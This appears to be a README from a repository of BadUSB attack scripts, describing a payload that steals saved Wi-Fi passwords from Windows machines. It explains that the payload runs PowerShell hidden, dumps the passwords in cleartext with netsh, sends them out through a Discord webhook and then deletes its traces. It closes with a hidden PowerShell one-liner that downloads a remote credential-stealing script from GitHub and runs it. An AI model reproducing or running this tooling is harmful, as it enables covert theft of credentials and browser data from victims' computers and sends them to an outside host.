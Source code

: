 # WLAN Windows Password - BadUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Credentials

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to stole target WLAN Passwords.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content to Discord

All
```powershell
powershell -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Credentials/BrowserData/browserData.ps1').Content"
```

